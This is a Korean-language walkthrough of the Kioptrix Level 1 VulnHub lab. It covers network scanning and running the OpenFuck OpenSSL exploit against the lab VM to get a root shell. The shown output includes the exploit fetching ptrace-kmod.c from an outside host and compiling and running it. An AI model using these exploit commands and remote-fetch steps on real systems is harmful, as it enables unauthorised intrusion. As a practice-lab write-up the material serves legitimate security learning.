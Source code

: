 # Kioptrix Level 1 (#1)

## Workstation
- Virtual Box : VMware Workstation 16 Player
- OS : kali-linux-2022.01

## Walkthrough
`https://www.vulnhub.com/entry/kioptrix-level-1-1,22/`

KIOPTRIX: LEVEL 1 (#1) 에 대한 가상머신은 위 사이트에서 다운받을 수 있다.

해당 가상머신을 다운받은 후 VMware 워크스테이션에서 열어 활성화 시킨다.

![kioptrix level 1]()

가상머신의 아이피 주소를 알기 위해 `ip addr` 명령어를 사용해 IP 대역을 확인한다.

![ip addr]()

IP 대역을 확인해 보니 192.168.159.0/24 대역을 사용 중이다.

그럼 이 대역에서 사용하는 클라이언트들을 확인하기 위해 `nmap -sn` 명령어를 사용해 확인한다.

![nmap-sn]()

내 아이피는 `192.168.159.128` 이므로 Kioptrix Level 1의 가상머신 아이피는 `192.168.159.129`이다.

그럼 가상머신에 열려있는 포트와 버전을 알기 위해 `nmap -sT -sV` 명령어로 네트워크 스캔을 한다.

![nmap]()

80번 포트에 http 서버가 열려있다. 80번 포트에 대한 취약점이 있는지 `searchexploit` 명령어를 버전에 맞게 검색한다.

![searchexploit]()

`OpenSSL/0.9.6b` 에 OpenFuck.c 라는 취약점이 발견됐다. 가장 최신버전인 파일을 `searchexploit -m 47080` 명령어를 사용해 내 디렉터리에 복사해 온다.

![copy]()

복사한 파일을 확인해 보면 다음과 같이 컴파일하라는 명령어가 있다.

![47080]()

그럼 안내해준 명령어를 사용해 해당 파일을 컴파일 한다.

![gcc]()

컴파일된 파일을 실행해 보면 사용할 수 있는 옵션들이 나오는데, 그 중 취약점으로 발견된 `OpenSSL/0.9.6b` 에 대한 옵션을 찾는다.

![0x6b]()

`0x6b` 옵션을 사용해 가상머신의 루트 권한을 획득해 본다.

```
┌──(kali㉿kali)-[~/vulnhub/kioptrix1]
└─$ ./OpenFuck 0x6b 192.168.159.129 443 -c 40

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--15:08:57--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!

Unable to establish SSL connection.

Unable to establish SSL connection.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./exploit: No such file or directory
bash-2.05$ 
bash-2.05$ whoami
whoami
apache
bash-2.05$ 
```

루트 권한을 얻지 못하고 apache 권한을 얻었다. 취약점 공격이 실패 해 확인해 보니 Exploit DB에 업로드된 OpenFuck.c 파일이 이전버전으로 루트 권한을 얻지 못했다. 해당 파일은 삭제 후 다른 OpenFuck 파일을 받아 컴파일하여 실행한다.

`git clone https://github.com/heltonWernik/OpenFuck.git`

![git]()

![compile]

다시 컴파일 후 실행해 보면 루트 권한을 얻은 쉘을 얻을 수 있다.

```
┌──(kali㉿kali)-[~/vulnhub/kioptrix1/OpenFuck]
└─$ ./OpenFuck 0x6b 192.168.159.129 443 -c 40             

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--15:19:17--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   3.84 MB/s

15:19:19 (3.84 MB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
[+] Attached to 6076
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root

```